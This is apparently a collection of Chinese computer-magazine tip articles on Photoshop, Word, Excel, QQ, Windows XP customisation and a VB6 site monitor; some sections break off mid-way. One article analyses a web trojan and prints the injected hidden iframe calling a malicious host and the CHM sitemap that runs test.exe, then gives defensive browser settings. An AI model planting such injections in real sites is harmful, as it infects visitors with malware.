- 第一步:打开需要修复的照片，然后执行菜单命令“Filter→Lens Correction”(有的CS2版本放到了扭曲滤镜菜单里)进入镜头校正窗口。预览窗里的照片自动加上了网格，以便我们调整时参考。
- 第二步:在右侧参数设置栏，可以看到Remove Distortion项的两侧很形象地放置了“桶形”和“枕形”两个图标，向左右拖动滑钮即可调整桶形或枕形失真。本例中的照片属于桶形失真，将中间的滑钮向右侧拉一点，增加一些枕形变形即可(见图3)。



- 第三步:调整后的照片四周会出现弧状白边，单击OK按钮返回Photoshop CS2后，用裁剪工具加工一下，去除白边后存盘即可。

如图4所示，是调整前后的效果对比。


> Just Do It!
在Lens Correction滤镜窗口右侧的参数设置里，还可以修复照片的色差、晕影、透视等很多缺陷，也大都设置了醒目易懂的图示标志，朋友们可将每个参数都尝试一遍，会得到意想不到的效果的。

(山东 猫咪老爸)## Word 里面下象棋

工作得累了，何不借着午间休息的时间下几盘象棋消遣消遣。什么，找不到象棋？那么Word总能找得到吧，就让我们在Word里制作一个电子象棋吧。这副象棋不但能用来对弈，如果你要排版棋谱之类的特殊内容，它也可以派上大用场哦。本实例可从http://www.newhua.com/cfan/200512/电子象棋.doc处下载，借鉴本例方法也可制作出围棋、跳棋、五子棋等。

- 第一步: 制作棋盘
1. 启动Word2003，单击工具栏上的“插入表格”按钮在文档中插入一个9行8列的表格（如果找不到“插入表格”按钮，可在工具栏空白处右击，再选择“表格和边框”即可将其调出）。
2. 右键单击表格左上角十字箭头标志，从右键菜单中选择“表格属性”命令打开表格属性对话框，在“行(列)”标签中，“指定高(宽)度”为“1.3厘米”，确定后返回。
3. 右键单击表格，选择“边框和底纹”命令，点选“方框”项，将线型设置为双线，颜色设置为橘黄色，这样棋盘的外框看起来就漂亮多了，确定后返回。
4. 如图1所示，用“绘图”工具栏上（如果找不到“绘图”工具栏，可右击工具栏空白处，选择“绘图”即可）的“直线”按钮，完成棋盘上其他直线的绘制工作。绘制完成后再用“选择对象”工具同时选中所有的直线，右击鼠标，在右键菜单中选择“组合→组合”选项，将它们组合成一个整体。
5. 全选表格最中间的那一行（第5行），再执行“表格→合并单元格”，在其中输入“楚河汉界”，并设置适当的字号、大小。至此，棋盘制作完成，效果如图1中所示。


> 小提示：为了增加棋盘的观感效果，可单击清除菜单项“视图→显示段落标志”前的对钩号。

- 第二步: 制作棋子
1. 单击“绘图”工具栏上的“椭圆”按钮，将显示“在此处创建图形”提示框，注意一定要在该提示框之外的地方画一个圆形（按住Shift键不放可画出正圆形）。
2. 双击圆形，打开“设置自选图形格式”对话框，在“颜色和线条”标签下，将“线条”设置为红色，“粗细”设置为2磅；在“大小”标签中，将“高度”和“宽度”均设置为1.2cm，确定后返回。
3. 右击圆形，从右键菜单中选择“添加文字”，然后在圆形中输入文字（如：“兵”），并设置相应的字体及颜色。
4. 复制上面建立的圆形，再粘贴出31个，分别修改圆形中的文字及颜色，即可完成棋子的制作了，将它们拖放到适当的位置即可（见图2）。


- 第三步: 下棋
执行“视图→全屏显示”命令，进入全屏显示状态，然后按鼠标移动棋子，即可摆棋谱练对弈了。保存好这副象棋，可留着以后排版棋谱之用。

(安徽 陈秀峰)

## 一眼挑出老板的邮件

日积月累，邮箱中的邮件多得分不清是谁发来的，有时候会因为没看到老板发来的邮件而误事。生活中又何止是老板，就是MM发来的邮件一眼没照顾到，也要当心挨骂哦。下面就教你一小招，保证你想要的邮件一眼就能挑出来。

### 1.Outlook 用户看过来

若要将邮箱中的邮件分得一清二楚，可以用颜色来区分发件人，这样一来，是谁发来的邮件就一目了然了。
第一步：在Outlook中单击左侧的“邮件”按钮进入邮件视图，然后执行菜单“工具→组织”命令打开“组织收件箱”任务窗格。
第二步：单击“使用颜色”选项卡，首先选择给“发件人”设置，在“是”后面填写老板的账户名或老板的邮箱地址，再在后面选择一种颜色（如红色），最后单击“应用颜色”按钮即可。这样，邮箱中所有老板的来信将被自动标为红色，而且以后凡是老板发来的邮件也将自动以“红色”来显示。

### 2.Foxmail 用户看过来

在Foxmail中也可以为邮件设置不同的颜色，不过要比Outlook稍复杂一点。
第一步：执行“账户→过滤器”命令调出过滤管理器对话框，单击左下角“新建”按钮。在“条件”标签下，为新规则取一个名称，如：“老板的邮件”，勾选“来信”项，将“位置”设置为“发件人”，选择“包含”并输入老板的邮箱地址。
第二步：点击“动作”标签，勾选“改变标签”项，并在后面的下拉列表中选择一个项目，如选择“公司文件”。这里说明一点的是，Foxmail不像Outlook那样可以自定义颜色，只能使用软件为各个不同项目预定义的几种颜色。设置好后，确定即可。其实在“动作”中还能进行多种设置，如将特定信件接收到指定的邮箱等，有兴趣的朋友可以多试试看。

(北京 赵翔)

应用: 常用于累计总和的计算中，如相关财年中的销售总计、支出总计，分期贷款中的利息累计、已偿还的本金总数等。
一般我们把包括多个单元格的范围称为“区域”，它的表示方法是将区域的第一个和最后一个单元格名称，用区域运算符(:)联接起来。比如，上面的函数SUM(B9:B11)中，参数“B9:B11”就是一个区域，它包括B9、B10、B11这样三个连续的单元格，这是一个列区域。也可以有行区域，如A1:A10，就是从A1到A10之间的十个连续的单元格。还有一种是矩形区域，如B2:D5，就有4×3共12个单元格。

### 第三步: 使用SUMIF()进行分类汇总

1. 本例中的预算总费用，指的是婚礼中将要支出的所有费用。因为每一类项目都有一个支出或收入小计，我们只要把所有的支出小计相加，就可以得出预算的总费用了。本例中三大类支出小计的汇总数字分别在B12、B18、B26单元格中，所以在用来显示预算总费用数量的单元格中（本例为B4）输入公式“=SUM(B12,B18,B26)”即可。
2. 不过，本例只是一个简单的样本，实际的婚礼预算可能会有很多的项目，用上面的方法既麻烦又容易出错，所以不妨请出智能分类汇总函数SUMIF()来帮忙。
SUMIF()小档案
语法: SUMIF(range,criteria,sum_range)
说明: range为用于条件判断的单元格区域；Criteria用来设定条件，可以是数字、表达式或文本，如100、“>100”或“苹果”等；Sum_range是需要求和的实际单元格。
应用: 对大量数据进行分类汇总。
3. 单击选中“预算总费用”下方的单元格（本例为B4），输入“=SUMIF(A8:A33,'支出小计',B8:B33)”后按回车结束。这个公式的意思是：条件区域（即range）从A8到A33，这之间只挑选出内容为“支出小计”的单元格，将B8到B33之间与“支出小计”对应的单元格内的数值相加（见图5）。
4. 只要将上面公式中的条件稍微改一下，就可以汇总出礼金收入了，输入：“=SUMIF(A8:A33,'收入小计',B8:B33)”即可。条件区域与计算区域是相同的，但是我们不用担心会算错，SUMIF自己会根据条件进行选择的，这也是这个函数的强大之处。



### 第四步: 智能显示数值差额

如果存款不够了，还需要向亲朋好友借一些，只要用总存款数（本例在A4单元格中）减去预算总费用（B4单元格中），就可以知道需不需要借款了。但为了更智能一点，比如只有当费用为负数的时候，才显示需借款的数额，如果为正数，则显示“目前尚无须借款”字样。可在“需借贷数额”下方的单元格中（本例为A5）输入公式：“=IF((A4-B4)>0,'目前尚无须借款',(A4-B4))”。此公式的意思为：如果A4-B4大于0，则显示“目前尚无须借款”，否则即显示出A4-B4的数值来。这个公式里出现了一个陌生面孔“IF”，它为何许人也？它到底有什么样的绝世武功？今天就不多讲了，请听下回分解。

一点通：大家可以在Excel帮助文件中找到更多的数学函数，限于篇幅不能一一介绍，下面再为大家举两个简单的例子。
★为何没有减法函数
只要将SUM()相应的参数加上负号，就可以达到相减的效果了，如：“=SUM(12,-26)”、“SUM(D6,-F2)”等。
★如何确定某年是否为闰年
MOD()是一个数学模除函数，它的语法为：MOD(被除数,除数)。它将两数相除后，取其余数的值，比如，MOD(10,8)将得到2，因为10除以8等于1，余数为2。利用这一特性，就可以确定某年是否为闰年，因为我们知道，除一些特殊情况外，一般能被4整除的年份都是闰年。可输入公式：“=MOD(四位数年份,4)”，如果得到的值是0，表示该年份能被4整除，即为闰年，反之则不是。注：这个公式仅适用于1901~2099年。
擂台赛：请大家在Excel中设计一个健身减肥的工作表，用来计算一日三餐摄入食物所获得的营养和卡路里热量，以及各种运动所消耗的热量，计算一下如何才能达到平衡，实现科学减肥。我们将从智能、全面、系统、科学四个方面来评判投稿作品，进入前三名的作品，将获得我们精心准备的大奖。获奖作品还将放到《电脑爱好者》网站上供大家下载欣赏。

(北京 一页)

## 图片时代 另类方法Show出你的照片

现在很多朋友用数码相机拍完照片后，只知道去打印，其实这些照片的用处非常多。比如可以让照片“上网”，让照片“进驻你的系统”……一样，也可以用照片替换头像照片、表情及聊天背景。替换的方法比较简单，在“工具”菜单下都可找到替换的菜单项。这里就不再详细介绍，只要注意将头像照片修改为96像素×96像素，背景照片要裁成5:3的样式，以免出现变形问题。

## 人人都可作“芙蓉”

好看的照片自然要在网上与大家分享，只要你有自信，当然可以将它们在网上流传。

- 1. 网络相册
现在网络相册这么多，但最方便的还是QQ相册，只要你有QQ号，就可以拥有至少16MB的空间(会员为100MB)，还可以用http://QQ号码.photo.qq.com的形式访问你的相册。
第一步:打开http://photo.qq.com，在窗口左侧输入QQ号及密码，按提示完成注册。
第二步:注册完，回到主界面，点击“我的相册”，再通过“创建相册”、“上传照片”按钮，完成照片的上传。
小提示
★创建相册时，选择“是否公开”，以便确定是否让其他好友访问。
★上传后的相片需要审核后才能让其他用户浏览，审核的过程会在3天内完成。
★可以上传GIF、JPG、PNG格式的图片，每张照片不得大于1MB。

- 2. 企鹅大变身
在QQ里有很多地方可以用得上你的照片，这样你的QQ也可以更加个性化。
①拒绝“企鹅头”
只要你的QQ等级为16级或更高级别，或是QQ会员、三钻贵族，都可以上传QQ头像。目前QQ头像支持BMP、JPG及GIF格式图片。
第一步：用各种照片处理软件，如Photoshop，将照片处理为40像素×40像素大小(如果不处理，则照片会自动缩放)。
第二步:点击QQ主界面上的“菜单”按钮，选择“个人设置→更改”，在弹出窗口中点击“本地浏览”，选择刚刚制作好的照片文件就可以了。
②你的表情就是QQ表情
别以为将照片处理，变成表情是件很困难的事，其实只要有你安装好Photoshop和ImageReady(与Photoshop一起安装)，或是使用Fireworks按照本刊2005年的第1期《QQ动态表情自己做》及2005年的第10期《动态QQ表情DIY·Fireworks轻松搞定》，就可以完成制作了。
③个人形象照片
QQ的自定义头像功能只能让大家看到“很小的你”，如何Show全貌呢? QQ为我们提供了个人形象照片功能。
第一步：点击“菜单”按钮，选择“个人设置”，在窗口左侧选择“形象照片”，点击“上传照片”。
第二步:按提示完成“QQ交友中心”的注册，点击“选择照片”后面的“浏览”按钮，选择照片，“确定”后完成上传。注意要想让大家看到你的照片，一定要将“是否在QQ上显示形象照片”设置为“显示”。
当别人需要查看你的照片时，只要在“查看资料”窗口，点击“交友资料”按钮即可。
④TM中的形象照
TM中也可以像QQ自定义头像那样，修改形象照片。同样需要先进行图片处理，大小为110像素×110像素。
第一步:进入TM，打开任意好友的聊天窗口。
第二步:点击右下角“我的形象”右侧的倒三角按钮，选择“更改我的形象→添加”，然后选择好本地文件即可。

- 2. 拒绝MSN Messenger “小绿人”
MSN Messenger(以下简称MSN)也和QQ

## 系统改造大变身

想让你的照片在系统中无处不在吗? 如果你仅仅只会简单的壁纸替换方法，那可就太老土了，还是看看下面的改造方法吧。

- 1. 用照片保护你的显示器
如果有多张漂亮照片，可以将它做成屏保。如果是Windows XP，无需安装任何软件就能完成此操作。
第一步：将所有照片放到同一文件夹中，右击桌面空白处，选择“属性”，点击“屏幕保护程序”标签，在“屏幕保护程序”下拉菜单中选择“图片收藏幻灯片”。
第二步：点击“设置”按钮，在“使用该文件夹中的照片”下点击“浏览”按钮，设置好照片所在目录，点击“确定”即可。
小提示
★使用照片制作屏保的软件有很多，比如屏保设计师2005 5.26(下载地址:http://www.onlinedown.net/soft/4149.htm)。
★使用ACDSee也可以制作出有漂亮边框的屏保。打开ACDSee，选择菜单中的“工具→配置屏幕保护”，通过“添加”、“配置”按钮就可以完成所有设置了。

- 2. 每次开机都要见到你
将照片设置为开机画面也是非常不错的选择。要实现这个功能，可以使用BootXP来完成。
第一步:从http://www.onlinedown.net/soft/4469.htm下载BootXP 2.50 RC1汉化版，并安装。
第二步:运行画笔，打开照片，使用“选定”工具，根据状态栏右下角的提示选择640像素×480像素大小的区域。点菜单中的“编辑→复制到”，在“保存类型”中选择“16色位图”，将所选图片保存为16色的BMP格式，并保存在C:\WINDOWS\Resources\BootScreens\目录下。
小提示
由于只能显示16色，所以在选择照片时，不要使用彩色丰富的图片，最好不要有天空等渐变色组成的照片。
第三步:打开BootXP，在“初始化”窗口中选择要修改的操作系统，点击“保存和运行BootXP”。
第四步:这时，你会在“引导画面”列表中找到刚刚保存的图形，点击“预览”按钮，可以预览到修改后的状态，最后点击“保存为你的引导画面”即可。
第五步:重启电脑，这时引导菜单中会多出一行引导菜单项，是原来引导菜单的备份。如果确认没有问题，可以回到BootXP，点击“选项”标签下的“显示初始化对话框”，删除刚刚备份的启动条项，点击“删除操作系统命令行”项即可。

- 3. 登录界面大变脸
Windows XP中的登录界面也是可以进行个性化的地方，不过方法要复杂一些。
第一步:先将用于替换的照片裁剪为210像素×210像素，然后复制C:\Windows\System32\logonui.exe到任意目录。
第二步:从http://www.onlinedown.net/soft/12421.htm下载Resource Hacker。
第三步:用Resource Hacker打开复制的logonui.exe，依次展开“位图→100→2052”，右击，选择“替换资源”，在弹出窗口中点击“打开新位图文件”，选择刚刚制作好的照片，点击“替换”，保存文件。
第四步:用DOS引导盘引导或进入“故障恢复控制台”，用刚刚修改过的文件，替换掉C:\Windows\System32\目录下的logonui.exe文件即可。
小提示
★Windows XP的开机画面，是可以通过“XP变脸王”(下载地址:http://www.onlinedown.net/soft/2168.htm)等软件进行修改的。
★如果要用照片替换系统中的图标，可以使用Axialis IconWorkshop，具体的使用方法可以参考本刊《轻轻松松学做XP风格图标》。

## “秀”好照片

不管是做什么，照片最重要的就是要“秀”出来，让别人看到，那么如何才能“秀”好你的照片呢? 我们在2005年第11期《数码相片摇身速变VCD》一文中已经介绍过如何用NeroVision Express SE刻录照片VCD。其实这方面的软件还有很多，比如友立推出的DVD拍拍烧，数码故事2004(下载地址:http://www.onlinedown.net/soft/28224.htm), Photo Story等。软件是有了，但“秀”好这些照片应该注意什么呢?

- 1. 贵精不贵多
由于是数码照片，没有底片成本的制约，一次出游拍摄的照片很可能就有数百张，甚至上千张。那么如何合理地挑选照片呢?
一般我们在展示照片时，时间不必过长，以半个小时为宜，如果每张照片平均展示时间为10秒钟，那么使用180张照片足以完成此项任务。
在挑选照片时，可以在Windows“资源管理器”中选择菜单中的“查看→缩略图”，这样能快速挑选出所需要的照片。
小提示
在添加照片时，需要注意添加的顺序，比如，相同景点的照片要放在一起。

- 2. 照片浏览节奏很重要
在显示照片时，对于一些漂亮的、经典的照片，可以让它显示的时间更长一些。比如景物的概况，可以显示得长一些，而细节部分，可快速带过。
由于一般在显示图片时，还要配上音乐，所以照片在显示时还要注意节奏。另外，在过渡效果的选择上也非常重要，很多人认为使用比较多的特效会让照片显得很“酷”。其实，这只会让人觉得眼花，一般使用“黑屏”或简单的“叠加”效果即可。
小提示
很多软件提供了随机添加过渡效果，或是全部添加一种过渡效果，可根据需要进行选择。一般在制作时，可先全部添加一种特效，然后再针对标题等照片做特殊处理。

- 3. 重点部位重点突出
如果你需要突出一张较大图片中的某一位置，而在拍摄时并没有想到这一点，这时，我们可以利用很多软件提供的“变焦”功能，只将照片的选定部分放大，注意为了不显得突然，一定要选择合适的过渡效果。

- 4. “秀”片还是“横版”好
不管是用什么软件，最终刻好的照片都是要在电视上显示的，为了更好地利用空间，“竖版”照片自然是非常不合适的，相信没人家里的电视是9:16的吧! 至于照片剪裁，使用PhotoShop或ACDSee等软件均可完成。在剪裁时，也可以根据不同电视的比例裁剪长宽比例4:3或16:9的照片。另外，很多人认为在使用软件刻录VCD或DVD前需要修改照片分辨率，其实这是没有必要的，照片处理软件会帮你完成这些处理。
小提示
打印是每张数码照片的最终用途，所以我们最后告诉在大家图片尺寸与打印尺寸的最佳关系，以便在拍照时有所选择。

| 图片尺寸(单位:像素) | 最佳打印尺寸(单位:英寸) |
| :--- | :--- |
| 640 × 480 | 5 |
| 1280 × 960 | 6 |
| 2048 × 1536 | 8 |
| 2560 × 1920 | 10 |
| 2880 × 2400 | 12 |

## 免费“贴纸照”今天就来拍

相信不少人都用过贴纸照软件，利用数码相机拍好相片，然后在软件中导入相片加上各种边框，而你现在看到的这款由天敏科技开发的贴纸照相软件，专门用于PC USB接口的摄像头实时拍照制作贴纸照的免费软件，它不仅能实现实时拍照，同时还有图像处理、电子相册、组合打印等实用功能。下面就一起来制作一个可爱的贴纸照。

天敏贴纸相小档案
软件版本:2.0 增强版
软件大小:37KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://dlc.pconline.com.cn/filedown.jsp?id=62161&dltypeid=1

- 第一步:简简单单拍照
  天敏贴纸相的拍照非常简单，只要运行程序(见图1), 从右上角下拉菜单中选择一类背景或相框，然后再挑选出最合适的一种，进行拍照。如果感到不能满足需要，还可以到 http://dlc.pconline.com.cn/filedown.jsp?id=62161&dltypeid=1 下载这个足足有80MB的相框包，利用它，你想与明星来一个“亲密接触”都没有问题。另外，天敏正在举行相框大赛，有兴趣的可以到其主页去参加比赛。
  选择好后，就可以利用摄像头进行拍照，拍照方式有两种:自动和手动。使用自动模式时，按下空格键后，摆好姿势，5秒后，就会完成拍照。在2.0版中还新增加了人脸移动检测功能，当自动拍照倒计时最后一秒时，如果还没有调整好自己的位置，指示灯会变红，等待你静止后才进行拍照。而在手动模式时，只要指示灯变成蓝色(画面静止)，就可以拍出清晰的“大头贴”来。

- 第二步:快快乐乐编辑
  选择一张“大头贴”，单击最下面的“编辑页面”按钮进入编辑状态，这里可以对照片进行各种处理，同时能进行图像管理、图像浏览、电子相册制作。虽然相对专业图像编辑软件功能有限，但非常容易上手，特别是它集成的各种滤镜，如反色、浮雕、散布、马赛克等，可以帮你轻松制作出艺术感十足的“艺术照”。另外，利用提供的合成功能，还可以制作相框、卡片、信纸和日历等，将自己的照片制作成日历、信封等，送给朋友，是不是很有成就感？

- 第三步:轻轻松松打印
  点击“打印页面”按钮打开打印界面。单击“模板属性”按钮，设置好打印纸张尺寸，再点击“增加图框”按钮，根据版面调整图框大小，最后将左侧图片全部拖拽进来即可(见图2)。

- 第四步:漂漂亮丽数码相册
  拍好了许多数码相片，除打印贴纸相外，还可以将这些相片制作成电子相册。点击最下面的“相册页面”按钮，展开“家庭相册集”标签下的相册，右击“Album1”，选择“导入图像”，然后将相关的相片导入后，点击工具栏上的“相册浏览”按钮，就可以像打开一本真相册一样进行浏览了。





小提示
点击主界面下侧的“设置”按钮，选择“设置”项，在“常规设置”标签的“快照目录”下可以设置大头贴保存的文件夹。其他位置还可以设置快照的格式，自动拍照间隔时间等。点击“设置”按钮后，选择“视频属性”，还可以对摄像头进行设置。
(辽宁 海客)

## 批量打印就用LabelShopLE

在实际工作中我们经常会遇到类似批量打印奖状的情况，也就是大部分内容相同，只有少量信息（例如名字及作品名）需要从一个Excel表格中获取的情况。一般我们都是先建立一个样版然后从Excel表中复制粘贴姓名及作品名来解决这个问题。打多少个奖状就需要复制粘贴多少次姓名及作品名，工作量大大增加。其实对于类似的工作我们可以使用一个叫做LabelShopLE的标签打印软件来解决。只要配置一次模板就可以打印出无数个奖状来。

LabelShopLE小档案
软件版本:1.22
软件大小:2788 KB
软件性质:免费软件
运行平台:Windows 98/2000/XP/2003
下载地址:http://nj.onlinedown.net/soft/32504.htm
LabelShopLE是一款功能强大的标签编辑打印软件，虽然其最初是为打印条码标签而设计的，但我们可以用它制作名片、胸卡等各种卡片，也可以实现精确的对位打印功能。LabelShopLE有强大的排版功能，多种数据处理方式，可连接数据库打印，并且支持VBScript脚本。通过它可以使打印工作变得更加容易。

- 第一步:启动LabelShopLE，然后选择菜单中的“文件→新建”，建立一个新文件。
- 第二步:在弹出的“选择标签”窗口中选择合适的标签类型，但由于这里并没有适合打印奖状的模板，所以我们在“选择标签”窗口中按“新建”按钮来建立符合要求的标签。
- 第三步:在“标签”中设置好满足要求的“宽度”和“高度”，并对行数、列数进行设置。这里我们选择1列、1行建立奖状格式(见图2)。
- 第四步:添加相应的固定信息到新建的文件中，点击工具栏上的“T”按钮，再双击“12345678”，打开文字编辑窗口，我们在该窗口中的“显示数据”中输入文字即可。由于我们所要输入的证书内容是多行文字信息，所以需要在“文字”标签下的“文本”标签选择“多行”，否则只能输入一行文字。
- 第五步:全部设置完后就可以按照图1中的内容输入文本信息了，由于每个证书的作品名和作者姓名都不一样，我们要把作者及作品名的位置留出来，稍后再通过LabelShopLE从获奖名单Excel表中提取有用信息。
- 第六步:点击“数据库”菜单下的“设置数据库”，打开数据库设定窗口。
- 第七步:由于需要从Excel中获取有用信息，所以选择“ODBC数据源”，然后点击“选择数据库→机器数据库”，选择“Excel Files”，然后选择那个获奖名单文件。当该Excel加载成功后就可以在数据库设定窗口看到可用字段了。
- 第八步:在刚刚留出空白位置处使用“T”工具，分别添加文本，然后再双击该文本，在“数据源”中选择“数据库”，再设置好不同的“字段名”。
- 第九步:现在就可以批量打印所有的证书了。选择菜单中的“文件→打印”，在“打印数量”中输入记录数，比如Excel表中共有10条记录，在这里输入10，最后点击“打印”按钮即可。证书的姓名及作品名会由软件自动从获奖名单文件中取得，从而省去了大量复制粘贴工作。大家在使用这款软件时，可能会存在一些排版问题，只要大家多用就可以慢慢适应这个软件，使你的工作学习事半功倍。





(北京 阮征)## 深入了解网页中的“马”

很多朋友在浏览着网页时，都会在不知不觉中感染上了木马，那么这些木马是从哪来的呢……

## 引子

前些天，我重装了系统，安装好Windows XP后，忘记打上SP2补丁。这天在浏览网站时，发现一个不错的音乐网站。嗯，听听音乐也不错，忽然我的CPU占用率变成100%，在桌面上出现一个报错信息框。我心里一惊，中木马了！

首先发现进程里多了2个可疑的进程，一个是command.exe（Windows XP的命令行是cmd.exe，Windows 9x系统是command.exe），另一个则是非常明显的i.com。正常系统程序不会有这个样子的进程的，于是结束两个进程，启动杀毒软件，检测计算机，经过近半个小时才把可怕的木马请出去。真是人善被欺。我要为受害者争口气，一起来找到放木马的凶手。

## 探查“木马”的“老窝”

我们确认了 www.***vido.com 网站被人插入了网页木马，我们就从这里下手。

首先，利用“view-source:”命令查看一下网站的源代码，如：（view-source:www.***vido.com/index.asp）。

在这个网站的主页代码中发现了一段代码：`<IFRAME MARGINHEIGHT=0 MARGINWIDTH=0 FRAMEBORDER=0 WIDTH=0 HEIGHT=0 SCROLLING=NO SRC=http://www.***er.com/cer.html></IFRAME>`

应该可以认定，这段代码中的 www.***er.com/cer.html 就是网页木马，再利用“view-source:”命令来查看其内容，发现其中有一段 www.***kcer.com/test.chm，奇怪，怎么CHM（帮助文件的格式）文件会是木马？我到网上找了很多资料，总算明白了其中的奥秘。利用CHM编辑器进行反编译，发现如下这段代码：

```
html
<HTML><HEAD>
</HEAD><BODY><UL>
<LI><OBJECT TYPE="text/sitemap">
<PARAM NAME="Name" VALUE="test">
<PARAM NAME="Local" VALUE="test.htm">
</OBJECT>
<LI><OBJECT TYPE="text/sitemap">
<PARAM NAME="Name" VALUE="test">
<PARAM NAME="Local" VALUE="test.exe">
</OBJECT>
</UL></BODY></HTML>
```

不用问，这里的 test.exe 一定是木马了，我们也得到了木马源文件。我们离目标越来越近了……

## “揪马窝”

一般木马都会把记录的密码信息发送到木马作者的信箱里，我们来看看木马里的秘密。首先用如 UltraEdit 等十六进制编辑器来打开木马（千万别双击木马，那就等于运行了木马）。通过 Ctrl+F 查找 @***.com 这类的信息，看能不能找到信箱地址。

来看一下，结果找不到，为什么呢？原来木马为了躲避杀毒软件的监视进行了加密。根据经验我到网上下载了一份 UPX 脱壳程序进行文件脱壳（见图1）。再来看看，发现了一个 778899@ccd**.com 的信箱地址（见图2），凶手找到了就是他。到这里我们的反追踪也就该告一段落了。

图 1

顺便再说个更加隐蔽的网页木马。也是在插入代码中的一段，不过，不是HTML格式的网页木马了，而是GIF的图片。很恐怖吧，图片也有可能是木马了。让我来给大家讲一下这里面的奥秘吧：其实这并不是大家常见的木马+图片合并程序，而是网页木马修改了扩展名，将HTML改变成了GIF。大家可以通过“记事本”来识破，只要用“记事本”打开图片，如果打开后出现一大片乱码（开头还不是GIF87）或ASP语句，那么很可能这个文件就是木马，删除是最好的选择（见图3）。

图 2

## 防御来自网页的“马”

图 3

剩下的部分是如何防御网页木马。毕竟害人之心不可有，防人之心不可无啊！网络中大多网页木马是含有恶意代码的ActiveX网页文件，只要大家在IE设置中将ActiveX控件、Java脚本禁止运行就可以做到最基本的防御了。

在IE窗口中点击菜单中的“工具→Internet选项”，在弹出的对话框中点击“安全”标签下的“自定义级别”按钮，弹出“安全设置”对话框，把其中所有“ActiveX插件和控件”以及与Java相关的项目全部选择“禁用”即可。虽然这样做在以后的网页浏览过程中可能会造成一些正常使用ActiveX的网站无法浏览，但是相对网络上无处不在的网页木马麻烦一点是很值的。

另外我们可以把已经确认含有网页木马的网页完全屏蔽掉，防止自己不小心再次中招。同样是在“安全”标签下，选择“受限制的站点”，然后点击“站点”按钮，将需要屏蔽的网站地址填入“将该网站添加到区域中”，再点击“添加”。最后，点击“应用”和“确定”即可屏蔽含有恶意代码的已知恶意网站了。

> **小提示**
我们前面提到的CHM网页木马比较特殊，需要通过修改本地注册表防御。打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\0]项，将其中的1004键的键值修改为十六进制的3，flags键值修改为1，这样子就可以让CHM网页木马失效了。

（河北 香草天空）

## 轻松调整单元格内文字的行距

用Excel制作表格时，如果单元格内有许多文字，不设置行距很不美观。大家都知道在Word中是可以直接调整行距的，那么在Excel的单元格中该如何调整行距呢？要知道，Excel没有提供直接的修改方法，不过，利用Excel中提供的“拼音指南”工具，能间接实现调整行距的目的。

- 第一步：选中要编辑的单元格，选择菜单中的“格式→拼音指南→显示或隐藏”。这实际上是激活拼音信息的显示模式，因为Excel默认是隐藏拼音。
- 第二步：选中要编辑的单元格，选择菜单中的“格式→拼音指南→设置”，在“字体”选项卡中调整字号，就可以调整行距了。
- 第三步：要取消行距的设置，选中单元格后，再次选择菜单中的“格式→拼音指南→显示或隐藏”。

这样，用Excel也可以制作出漂亮的表格，还不快试试？

（湖北 董锐）

## 手工修复 Windows XP 的防火墙

前些天朋友的电脑中了木马，清除木马后Windows XP防火墙消失了。点击“本地连接”的“属性”，提示“Windows不能显示此连接的属性，Windows Management Instrumentation（Windows管理体系结构组件WMI）信息可能损坏”。朋友为了节省空间已经把还原功能关闭了，如何恢复防火墙呢？经过几次失败后，终于在网上找到了解决方法。

- 第一步：打开“控制面板”，点击“管理工具”，双击“计算机管理”，选择“服务和应用程序→服务”选项，在窗口左侧找到“Windows Management Instrumentation”服务，将其停止。
- 第二步：打开 C:\Windows\System32\wbem\Repository\ 目录，删除所有文件，重启电脑后，刚刚停用的WMI就会再次启动，从其他电脑中的 C:\Windows\System32\wbem\Repository\ 目录拷贝一份新的无错文件，这样Windows XP自身的防火墙就又重生了。

（河北 香草天空）

## Word 也玩稿纸打印

使用过WPS的人都知道，WPS有一项独特的稿纸打印功能，可以显示出方格线，在打印作文、论文之类的稿件时非常有用。现在，Word 2003中也能实现此功能了。

- 第一步：到 http://www.microsoft.com/downloads/search.aspx?displaylang=zh-cn&categoryid=9 下载 Microsoft Office Word 2003 稿纸加载项插件，双击下载所得文件完成安装，然后重启 Word 2003。
- 第二步：此时单击 Word 的“格式”菜单，会发现其中多了一项“稿纸设置”。点击它，打开稿纸设置对话框，选中“启用稿纸格线”项，再按窗口中的提示进行相应设置。注意：一定要选中“按中文习惯控制首位字符”选项，否则标点符号有可能会出现在行首，这不符合我们的行文习惯和要求。
- 第三步：设置完毕，单击“确定”返回，Word文档将变成如图所示的样子，编辑好文档后打印即可。

（重庆 石晓红）

## 自制智能软件机器人

## 前言

常言道，搬外必先安内，服务器的正常运作，是开展一切工作的基础。而在网络安全问题日益凸现的今天，监控服务器的健康状况成了管理人员的必修课。然而，通过手工操作效率过于低下。想到骇客帝国中帅呆了的Agent史密斯，其本质就是一个高级的软件机器人，那么我们能不能编写一套程序，让程序就像Agent史密斯一样自动去监视服务器的健康状况，一旦发现问题就自动通知我们呢？ 要编写这么一个软件机器人，我们只要通过程序定时测试网站是否正常运行即可。其实原理并不复杂，因为用Inet控件去抓取一个Url地址时，如果地址是无法访问的，Inet控件所返回的值的长度是0。如果用循环和数组，程序还能同时监测多个网址。此外，还可以用Dir函数、Windows Script Host对象等实现从收藏夹中导入链接，使软件操作更加友善。

## 程序设计

以下是笔者用Visual Basic 6编写的网站监视软件。程序需要5个按钮，作用分别是：开始监视、结束监视、添加Text1中的网址至监视列表、从监视列表中移除网址和从收藏夹列表中添加网址到监视列表；一个Inet控件（需要从工程 – 部件中选择），RequestTimeout设置为15（请依据个人网速设置，建议大于15）；三个Listbox分别为：记录监视记录、待监视网址列表、显示收藏夹中的链接列表；两个Text框分别为：用户输入网址、显示List2中选中网址的监视信息；一个Timer控件，Enabled设置为False，Interval设置为1000。

```
Private Sub Form_Load() 'Form加载时读取收藏夹中的链接
Dim sA As String * 65400
Dim sfile As String
Dim fpath As New IWshRuntimeLibrary.WshShell
sfile = Dir(fpath.SpecialFolders("FAVORITES") & "\") '用Windows Script Host对象获得当前收藏夹位置
Do While Not Len(sfile) = 0
If UCase(Right(sfile, 4)) = ".URL" Then
Open fpath.SpecialFolders("FAVORITES") & "\" & sfile For Binary As #1 '注释：用二进制打开文件
Get #1, , sA '注释：用Get语句从文件中获取字节
xz = Split(sA, Chr(10)) '以回车作为标志分割URL中文本
For i = 0 To UBound(xz)
If UCase(Left(xz(i), 4)) = "URL=" Then '符合格式时得到Url
List3.AddItem Right(xz(i), Len(xz(i)) - 4)
End If
Next i
Close #1 '注释：关闭文件
End If
sfile = Dir
Loop
End Sub
```

```
